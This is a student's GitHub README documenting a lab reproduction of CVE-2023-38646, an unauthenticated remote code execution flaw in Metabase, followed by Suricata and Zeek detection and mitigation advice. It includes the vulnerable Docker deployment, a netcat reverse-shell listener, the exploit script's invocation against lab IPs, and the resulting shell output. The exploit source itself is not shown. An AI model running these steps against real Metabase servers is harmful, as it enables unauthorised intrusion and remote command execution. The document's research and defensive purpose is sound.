

# CVE-2023-38646 — Metabase Remote Code Execution (RCE) Proof-of-Concept

### Overview

This repository documents a **Proof-of-Concept (PoC) security research project** analysing **CVE-2023-38646**, a critical pre-authentication **Remote Code Execution (RCE)** vulnerability affecting vulnerable versions of **Metabase**.

The objective of this project is to demonstrate the **complete lifecycle of a real-world vulnerability**, including:

* Understanding the vulnerability and its root cause
* Reproducing the exploit in a controlled lab environment
* Establishing a reverse shell on the vulnerable system
* Observing attack behaviour through **network monitoring tools**
* Demonstrating **detection engineering techniques**
* Proposing **defensive mitigation strategies**

This repository is designed to showcase practical skills in:

* Vulnerability research
* Exploit reproduction
* Reverse shell usage
* Network traffic analysis
* Intrusion detection systems
* Security mitigation strategies

---

### Vulnerability Background

**CVE-2023-38646** is a critical vulnerability affecting certain versions of **Metabase**, an open-source business intelligence and analytics platform.

The vulnerability allows an attacker to achieve **unauthenticated remote code execution** by exploiting weaknesses in the setup or configuration process of the application.

Key details:

* **CVE ID:** CVE-2023-38646
* **Severity:** Critical
* **CVSS Score:** 9.8
* **Attack Vector:** Network
* **Authentication Required:** No
* **Impact:** Remote Code Execution (RCE)

Successful exploitation enables an attacker to:

* Execute arbitrary commands on the target system
* Establish a reverse shell
* Potentially gain full system compromise

Official references:

* https://nvd.nist.gov/vuln/detail/CVE-2023-38646
* https://www.metabase.com/

---

### Technologies & Tools Used

This project combines both **offensive security tools** and **defensive monitoring tools**.

#### Offensive Security

* Python
* Reverse shell payloads
* Custom exploit script
* Metabase vulnerable instance

#### Detection & Monitoring

* **Suricata** — Intrusion Detection System (IDS)
* **Zeek** — Network Security Monitoring (NSM)

#### Defensive Technologies

* **ModSecurity** — Web Application Firewall
* **OSSEC** — Host-based Intrusion Detection System

#### Lab Environment

*Placeholder — describe your lab setup*

Example:

* Attacker machine: Kali Linux
* Target machine: Vulnerable Metabase server
* Network monitoring machine: Security monitoring VM

---

## Exploitation PoC

### Attack Chain Diagram



This diagram illustrates the high-level attack flow used in this project.

### Proof-of-Concept (PoC) Set-Up

**Docker Installation and Setup:**

```text
sudo apt update
sudo apt upgrade -y

sudo apt install docker.io -y

sudo systemctl start docker 
sudo systemctl enable docker

sudo docker run hello-world
```

**Docker Initiation:**

A vulnerable Metabase Enterprise instance (v1.44.0) was deployed using Docker.

```text
sudo docker run -d -p 3000:3000 --name metabase-enterprise metabase/metabase-enterprise:v1.44.0
```

This exposes the Metabase web interface on port 3000, allowing access to the setup page.

If Docker is already running, execute the following command lines to start afresh:

```text
sudo docker stop metabase-enterprise
sudo docker rm metabase-enterprise
```


*'Docker Setup' Placeholder*

Once the container is running, the Metabase interface becomes accessible through the browser.

```text
    http://0.0.0.0:3000/setup -or- http://127.0.0.1:3000/setup
```

The setup page confirms that the Metabase instance is active and ready for configuration.

### *Exploitation Scenario 1*

BurpSuite

#### Demo / Documentation

*Placeholder for screenshots or explanation*


### *Exploitation Scenario 2 - Python Script Exploit*

1. Reverse Shell Listener Preparation

Before launching the exploit, a Netcat listener is started on the attacker machine to receive the reverse shell connection.

```text
    nc -lvnp 6666
```

This listener waits for incoming connections from the exploited Metabase server.

*Placeholder for screenshots or explanation*

   
2. Exploit Execution
The exploit script is executed from the attacker machine.

```text
    python3 CVE-2023-38646-Reverse-Shell.py \   ---> Exploit Name
    --rhost http://192.168.1.136:3000 \         ---> Targer IP Address
    --lhost 192.168.1.137 \                     ---> Attacker's IP Address
    --lport 6666                                ---> Attacker's Listening Port
```

The payload executes a command that establishes a reverse shell back to the attacker machine.

3. Reverse Shell Established
Once the payload is executed successfully, the vulnerable Metabase instance initiates a connection back to the attacker's machine.

The Netcat listener receives the connection, granting the attacker shell access to the system.

```text
    connect to [192.168.1.137] from 192.168.1.136
    bash: cannot set terminal process group
    bash: no job control in this shell
    bash-5.1$
```

For confirmation of connection to the victim's device:

```text
    whoami
```
Output:
```text
    connect to [192.168.1.137] from 192.168.1.136
    bash: cannot set terminal process group
    bash: no job control in this shell
    bash-5.1$ whoami
    whoami
    metabase
    bash-5.1$
``` 


--- 

## Detection Engineering PoC

This project also demonstrates how exploitation activity can be detected using **network monitoring tools**.

### Suricata Detection

Suricata (IDS) was used to monitor network traffic for suspicious patterns associated with the exploit.

```text
sudo suricata -i eth0
```

*Placeholder: Insert Suricata alert screenshot*

```
evidence/detection/suricata_alert.png
```

To observe alerts in real time, Suricata logs were monitored using:

```text
tail -f /var/log/suricata/fast.log
```

*Placeholder: Insert Suricata log screenshot*

```
evidence/detection/suricata_log.png
```

For a passive approach, a custom notification script was used to generate desktop alerts whenever Suricata detects suspicious traffic.

```text
nohup ./suricata-popup-alert.sh >/dev/null 2>&1 &
```

When the exploit was executed, Suricata generated alerts indicating suspicious activity associated with the Metabase exploit attempt.

*Placeholder: Insert Suricata log screenshot*

```
evidence/detection/suricata_noti.png
```

Example:

*Placeholder: Insert Suricata log screenshot*

```
evidence/detection/suricata_noti.png
```


### Zeek Network Analysis

In addition to IDS monitoring, Zeek was used to analyse network traffic and identify anomalous behaviour.

Zeek is initiated using these commands to begin capturing and analysing network traffic:

```text
sudo /usr/local/zeek/bin/zeek -i eth0
```

*Placeholder: Insert Zeek initiation screenshot*

```
evidence/detection/zeek.png
```

By inspecting the connection logs, the reverse shell traffic on port 6666 can be observed.

```text
192.168.1.136 → 192.168.1.137:6666
```

*Placeholder: Insert Zeek log screenshot*

```
evidence/detection/zeek_log.png
```

---

## Mitigation & Defensive Strategies

Several mitigation strategies can reduce the risk of exploitation.

| Strategy | Description |
| ----- | ----- |
| Patch Management | Upgrade Metabase to a version that patches **CVE-2023-38646** | 
| Web Application Firewall (ModSecurity) | Filter malicious HTTP requests |
| Host Intrusion Detection (OSSEC) | Monitor suspicious system behaviour |
| Network Monitoring (Suricata & Zeek) | Detect abnormal traffic patterns |

---

# Repository Structure

```
cve-2023-38646-metabase-rce-research
│
├── exploit
│   └── metabase_reverse_shell.py
│
├── detection
│   ├── suricata
│   └── zeek
│
├── evidence
│   ├── exploitation
│   ├── detection
│   └── mitigation
│
├── docs
│   ├── report
│   └── presentation
│
└── demo
```

---

### Summary

This project demonstrates the full lifecycle of analysing and reproducing a **real-world critical vulnerability**.

The PoC showcases:

* vulnerability analysis
* exploit reproduction
* reverse shell execution
* network traffic monitoring
* intrusion detection
* defensive mitigation strategies

The goal of this repository is to provide a **technical case study** illustrating both **offensive and defensive cybersecurity practices**.

---


## 🖋️ Author

**Styverson Ng**

Bachelor of Information Technology <br>
Artificial Intelligence & Autonomous Systems <br>
Cyber Security & Cyber Forensics <br>

Murdoch University <br>
